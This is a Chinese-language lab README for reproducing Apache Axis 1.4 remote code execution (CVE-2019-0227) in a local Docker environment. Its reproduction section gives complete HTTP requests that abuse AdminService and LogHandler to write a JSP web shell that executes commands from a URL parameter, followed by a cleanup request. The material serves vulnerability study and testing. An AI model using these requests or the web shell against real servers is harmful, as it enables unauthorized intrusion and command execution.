



# Apache Axis 1.4 远程代码执行漏洞（CVE-2019-0227）

Apache Axis 是一个基于 SOAP 的开源 Java Web 服务框架。当 `enableRemoteAdmin` 设置为 `true` 时，`AdminService` 接口可以被远程访问。攻击者可通过该接口注册任意 Axis 服务，并挂载 Axis 内置的 `LogHandler`。`LogHandler` 会将传入的 SOAP 消息写入指定文件路径，如果将路径指向Web根目录，再通过新注册的服务传入 JSP 代码，即可写入 WebShell 并实现远程代码执行。所有 Apache Axis 1.x 版本均受影响，且 1.x 分支不存在修复版本。

CVE-2019-0227 也可与 `StockQuoteService.jws` 中利用条件有限的 SSRF 行为组合，间接访问 `AdminService`，但本环境主要演示开启远程管理后直接通过 `AdminService` 写 WebShell 的风险。

参考链接：

- <https://nvd.nist.gov/vuln/detail/CVE-2019-0227>
- <https://rhinosecuritylabs.com/application-security/cve-2019-0227-expired-domain-rce-apache-axis/>
- <https://www.cnblogs.com/0x28/p/14380450.html>

## 环境搭建

执行如下命令启动 Apache Axis 1.4：

```
docker compose up -d
```

本环境中 `enableRemoteAdmin` 已设置为 `true`，因此可从容器外直接调用 `AdminService`。

容器启动后，等待约 20 秒让 Tomcat 完成初始化，然后确认服务就绪：

```
curl -s http://your-ip:8080/axis/
```

## 漏洞复现

首先，通过 `AdminService` 创建服务。如下 WSDD 会注册 `RandomService`，并配置 `LogHandler` 将传入的 SOAP 内容写入 `webapps/axis/shell.jsp`：

```http
POST /axis/services/AdminService HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: ""
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Body>
    <ns1:deployment
  xmlns="http://xml.apache.org/axis/wsdd/"
  xmlns:java="http://xml.apache.org/axis/wsdd/providers/java"
  xmlns:ns1="http://xml.apache.org/axis/wsdd/">
  <ns1:service name="RandomService" provider="java:RPC">
    <requestFlow>
      <handler type="RandomLog"/>
    </requestFlow>
    <ns1:parameter name="className" value="java.util.Random"/>
    <ns1:parameter name="allowedMethods" value="*"/>
  </ns1:service>
  <handler name="RandomLog" type="java:org.apache.axis.handlers.LogHandler" >
    <parameter name="LogHandler.fileName" value="webapps/axis/shell.jsp" />
    <parameter name="LogHandler.writeToConsole" value="false" />
  </handler>
</ns1:deployment>
  </soapenv:Body>
</soapenv:Envelope>
```



然后，调用刚刚注册的服务，并在 SOAP 消息体中放入 JSP 代码。`LogHandler` 会将请求内容写入 Axis Web 目录下的 `shell.jsp`：

```http
POST /axis/services/RandomService HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: ""
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close

<?xml version="1.0" encoding="utf-8"?>
        <soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
        <soapenv:Body>
        <api:main
        soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
            <api:in0><![CDATA[
<%@page import="java.util.*,java.io.*"%><% if (request.getParameter("c") != null) { Process p = Runtime.getRuntime().exec(request.getParameter("c")); DataInputStream dis = new DataInputStream(p.getInputStream()); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine(); }; p.destroy(); }%>
]]>
            </api:in0>
        </api:main>
  </soapenv:Body>
</soapenv:Envelope>
```



最后，在浏览器中访问 `view-source:http://your-ip:8080/axis/shell.jsp?c=id` ，即可触发 WebShell 逻辑并在页面源码中看到命令执行结果。



复现完成后，可卸载测试服务：

```http
POST /axis/services/AdminService HTTP/1.1
Host: your-ip:8080
Content-Type: text/xml;charset=UTF-8
SOAPAction: ""
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Body>
    <undeployment xmlns="http://xml.apache.org/axis/wsdd/">
      <service name="RandomService"/>
      <handler name="RandomLog"/>
    </undeployment>
  </soapenv:Body>
</soapenv:Envelope>
```
